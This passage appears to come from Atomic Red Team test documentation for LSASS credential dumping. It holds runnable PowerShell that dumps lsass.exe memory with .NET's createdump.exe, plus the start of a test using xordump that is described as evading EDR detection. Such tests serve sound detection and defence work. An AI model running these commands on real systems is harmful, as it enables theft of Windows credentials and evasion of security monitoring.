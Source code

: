 
```powershell
$exePath =  resolve-path "$env:ProgramFiles\dotnet\shared\Microsoft.NETCore.App\5*\createdump.exe"
& "$exePath" -u -f $env:Temp\dotnet-lsass.dmp (Get-Process lsass).id
```

#### Cleanup Commands:
```powershell
Remove-Item $env:Temp\dotnet-lsass.dmp -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: .Net v5 must be installed
##### Check Prereq Commands:
```powershell
$exePath =  resolve-path "$env:ProgramFiles\dotnet\shared\Microsoft.NETCore.App\5*\createdump.exe"
if ($exePath -and (Test-Path $exePath)) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
winget install Microsoft.DotNet.DesktopRuntime.5 --accept-source-agreements --accept-package-agreements --silent
```




<br/>
<br/>

## Atomic Test #12 - Dump LSASS.exe using imported Microsoft DLLs
The memory of lsass.exe is often dumped for offline credential theft attacks. This can be achieved by
importing built-in DLLs and calling exported functions. Xordump will re-read the resulting minidump 
file and delete it immediately to avoid brittle EDR detections that signature lsass minidump files.

Upon successful execution, you should see the following file created $env:TEMP\lsass-xordump.t1003.001.dmp.

**Supported Platforms:** Windows


**auto_generated_guid:** 86fc3f40-237f-4701-b155-81c01c48d697





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| xordump_exe | Path to xordump | path | C:&#92;Windows&#92;Temp&#92;xordump.exe|
| output_file | Path where resulting dump should be placed | path | C:&#92;Windows&#92;Temp&#92;lsass-xordump.t1003.001.dmp|

